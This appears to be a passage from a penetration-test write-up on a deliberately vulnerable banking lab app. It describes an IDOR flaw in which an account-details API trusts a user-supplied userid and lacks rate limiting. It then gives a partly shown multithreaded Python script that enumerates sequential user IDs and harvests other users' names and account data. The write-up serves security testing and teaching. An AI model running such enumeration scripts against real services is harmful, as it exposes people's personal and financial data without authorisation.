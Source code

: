 During the assessment of the **My Account** page, I identified an IDOR vulnerability in the API request responsible for fetching account details. Instead of relying solely on the secure `BNKID` embedded within the JWT token for authorization, the endpoint accepts a user-controlled `userid` in the POST request payload to retrieve account information.

This flaw allows unauthorized access to any user’s account details simply by modifying the `userid` value in the JSON request.

![](/Screenshots/unsafebank//pent/IDOR.png)
#### Exploiting IDOR at scale

We already have a method to enumerate the user base via the **Forgot Password** page. However, if that avenue were unavailable, this vulnerability provides an alternative means to retrieve user IDs. Notably, the endpoint lacks any form of rate limiting, allowing unrestricted automated enumeration. The following Python script automates this process by:

- Generating sequential `BNK` IDs,
    
- Querying the vulnerable endpoint concurrently,
    
- Collecting valid user details,
    
- Saving the results incrementally to a JSON file.
    

```python
import requests
import json
from datetime import datetime, timezone
from concurrent.futures import ThreadPoolExecutor, as_completed

# --- Configuration ---
URL = "http://localhost/api/account/details"
OUTPUT_FILE = "valid_account_details.json"
HEADERS = {
    "Content-Type": "application/json",
    "Authorization": "[JWT TOKEN HERE]"
}
MAX_THREADS = 4

valid_results = []

def build_payload(bnk_id):
    return {
        "requestBody": {
            "timestamp": datetime.now(timezone.utc).isoformat(),
            "data": {
                "userid": bnk_id
            }
        }
    }

def check_user(index):
    bnk_id = f"BNK{index:05d}"
    try:
        response = requests.post(URL, headers=HEADERS, json=build_payload(bnk_id), timeout=5)
        if response.status_code != 200:
            return None
        data = response.json()
        if data.get("status") == "Success" and data.get("status_code") == "ACT002":
            print(f"[+] VALID: {bnk_id} → {data['data']['fname']} {data['data']['lname']}")
            return data["data"]
    except Exception as e:
        print(f"[ERROR] {bnk_id}: {e}")
    return None

print(f"[*] Starting user enumeration with {MAX_THREADS} threads...\n")
```